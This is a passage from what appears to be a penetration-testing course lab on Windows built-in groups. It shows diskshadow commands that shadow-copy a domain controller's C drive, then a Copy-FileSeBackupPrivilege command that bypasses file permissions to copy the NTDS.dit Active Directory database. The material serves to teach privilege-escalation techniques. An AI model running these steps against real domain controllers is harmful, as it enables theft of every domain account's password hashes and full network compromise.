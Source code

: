 As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

Windows Built-in Groups

```powershell-session
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

#### Copying NTDS.dit Locally

Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.

Windows Built-in Groups

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```
